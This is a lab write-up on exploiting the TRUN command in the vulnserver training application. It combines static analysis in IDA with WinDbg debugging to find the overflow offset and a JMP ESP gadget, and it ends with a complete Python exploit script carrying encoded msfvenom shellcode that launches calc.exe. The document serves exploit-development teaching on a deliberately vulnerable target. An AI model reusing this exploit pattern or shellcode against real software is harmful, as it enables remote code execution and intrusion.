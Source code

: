 ## <ins>TRUN</ins>

Instead of fuzzing the TRUN command (like most writeups do) I will utilise a combination of static and dynamic analysis in order to build a working exploit.

For now, stack protections are disabled and the only challenge is to gain code execution.

When executing the vulnserver application we are greeted with some text which we can also find when opening the application in IDA and following the first few code blocks:

![e281afc55e05b7993d54a9f2a063446f.png](:../../../99\)%20Images/ed6dfdc7e4fa46de8c2f477f0ddccb9e.png)

Using tcpview from sysinternals showed that the application is listening on port 9999 TCP:

![d2a8996546db9ceee1b0800c610c62b9.png](:../../../99\)%20Images/576bf9d55aa4459cb66eda24f821bf1c.png)

I wrote a small python script to send some gibberish to the application and follow the execution flow in IDA and WinDbg:

```Python
#!/usr/bin/python3

import socket, sys
from struct import pack

ip = sys.argv[1]
port = 9999		

prefix = b''
buffer = b'w00tw00t'

payload = prefix + buffer 

try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(5)
        s.connect((ip, port))
        print('[*] Sending payload')
        s.send(payload)
        s.recv(1024)
except Exception as e:
    print(e)
    sys.exit(0)
```

As the application is using TCP, a breakpoint can be set at `WS2_32!recv`.

After executing the python script, the breakpoint gets hit and the process gets interruped at `WS2_32!recv`:

![3385f2f4b8d4f053409c2822e1c31a98.png](:../../../99\)%20Images/475c344952004eefb23ea8093f15685b.png)

Using `pt` and `p` it is possible to step out of the receive function, back into the caller function.

Following that address in IDA (`00401958`) it is possible to get a broad overview of what happens to the input received.

Various call to `_strncmp` are made comparing the first few characters of the buffer with some static strings:

![539068a3d142676a59cc83db879379b4.png](:../../../99\)%20Images/f79e0906a224488d80f6cb3939bbe384.png)

This section is targeting the TRUN command, so the following changes were made to the python script:

```Python
[...]

prefix = b'TRUN '
buffer = b'A' * 4096

payload = prefix + buffer 

[...]
```

After executing the new script and following the execution flow to the string compare with `TRUN` the jump is not taken, meaning the comparison returned 0,

vulnserver is allocating a new memory region using `_malloc` and then initialising it using `_memset`, afterwards a byte comparison at a specific offset is made. If the byte at that specific offset contains a dot (.) a jump is made to a basic block containing a call to `_strncpy` which might be exploitable.

![97c852f58475648140d9de9e55076dfa.png](:../../../99\)%20Images/91d168f04192486bab5e4f91b0b15f73.png)

In order to obtain that specific offset in the buffer, the A's were replaced with a unique string pattern created using msf-pattern_create:
`msf-pattern_create -l 4096`

```Python
[...]

prefix = b'TRUN '
buffer = b'Aa0Aa1Aa2Aa3A[...]3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4F'

payload = prefix + buffer 

[...]
```

A breakpoint was set at the comparison with `2Eh` and the script was executed.
Dumping the bytes EAX points to reveals that the comparison is starting at the very beginning of the buffer (prefix excluded):

![ff911a7394932f5cec8495af9ea93f92.png](:../../../99\)%20Images/21c5bcf08ef64b6fbbab886921b9d54f.png)

If the comparison fails (there is no dot at that offset), the offset will be increased and the next byte gets checked. This means in order to perform a jump to the basic block containing a `strncpy` the only requirement the buffer has to meet is containing a dot somewhere.

Letting the application run using `g` leads to an access violation where EIP is storing `43396f43`.

This value is equivalent to offset 2007 in the unique pattern string.

The following modifications to the python script were made in order to calculate the available buffer space:

```Python
prefix = b'TRUN '
buffer = b'.' * 2007
eip = pack('<L', 0x42424242)   
junk = b'C' * 1024

payload = prefix + buffer + eip + junk
```

After EIP gets overwriten with 0x42424242 it is possible to dump the stack and check the last address containing 0x43434343 (CCCC). Then this address gets subtracted from the address stored in ESP:

![a306bd38d875d67017fbf683b6f4fbd8.png](:../../../99\)%20Images/7152fc99e6d94815bca025e0a56cf161.png)

Following this step someone would usually check for badchars (besides 0x00) but as there aren't any in the TRUN command, this step will be skipped here.

As the base address of the vulnserver binary contains a NULL-byte, it cannot be used to look for gadgets.

Instead essfunc.dll can be used, as this module gets loaded at `62500000` and does not have ASLR enabled (which can be checked using narly)
![9cb873592f6c13c4fcdae41f78d06ec5.png](:../../../99\)%20Images/bff263daa0fc47e3a5d04ff30bb6a098.png)

Knowing this, essfunc can be searched for a `JMP ESP` or `CALL ESP` instruction using the WinDbg search function:

![4baade0e651a260191c045a5726a1772.png](:../../../99\)%20Images/3edc289a45494e92a598efecb74e4f09.png)

At this stage, it is already possible to put everything together and craft a working exploit.

```Python
[...]

prefix = b'TRUN '
buffer = b'.' * 2007
eip = pack('<L', 0x625011af)   

nops = b'\x90' * 16

# msfvenom -p windows/exec cmd=calc.exe -b "\x00" EXITFUNC=thread -f py -v shellcode
shellcode =  b""
shellcode += b"\xda\xce\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x31"
shellcode += b"\xba\x99\xf4\x2d\xd4\x31\x50\x18\x83\xc0\x04"
shellcode += b"\x03\x50\x8d\x16\xd8\x28\x45\x54\x23\xd1\x95"
shellcode += b"\x39\xad\x34\xa4\x79\xc9\x3d\x96\x49\x99\x10"
shellcode += b"\x1a\x21\xcf\x80\xa9\x47\xd8\xa7\x1a\xed\x3e"
shellcode += b"\x89\x9b\x5e\x02\x88\x1f\x9d\x57\x6a\x1e\x6e"
shellcode += b"\xaa\x6b\x67\x93\x47\x39\x30\xdf\xfa\xae\x35"
shellcode += b"\x95\xc6\x45\x05\x3b\x4f\xb9\xdd\x3a\x7e\x6c"
shellcode += b"\x56\x65\xa0\x8e\xbb\x1d\xe9\x88\xd8\x18\xa3"
shellcode += b"\x23\x2a\xd6\x32\xe2\x63\x17\x98\xcb\x4c\xea"
shellcode += b"\xe0\x0c\x6a\x15\x97\x64\x89\xa8\xa0\xb2\xf0"
shellcode += b"\x76\x24\x21\x52\xfc\x9e\x8d\x63\xd1\x79\x45"
shellcode += b"\x6f\x9e\x0e\x01\x73\x21\xc2\x39\x8f\xaa\xe5"
shellcode += b"\xed\x06\xe8\xc1\x29\x43\xaa\x68\x6b\x29\x1d"
shellcode += b"\x94\x6b\x92\xc2\x30\xe7\x3e\x16\x49\xaa\x54"
shellcode += b"\xe9\xdf\xd0\x1a\xe9\xdf\xda\x0a\x82\xee\x51"
shellcode += b"\xc5\xd5\xee\xb3\xa2\x3a\x0d\x16\xde\xd2\x88"
shellcode += b"\xf3\x63\xbf\x2a\x2e\xa7\xc6\xa8\xdb\x57\x3d"
shellcode += b"\xb0\xa9\x52\x79\x76\x41\x2e\x12\x13\x65\x9d"
shellcode += b"\x13\x36\x06\x40\x80\xda\xe7\xe7\x20\x78\xf8"

payload = prefix + buffer + eip + nops + shellcode

[...]
```

As we specified one bad character, an encoder was used, meaning it is mandatory to add a NOP-slide before the actual shellcode, so that the decoder works without breaking the shellcode.
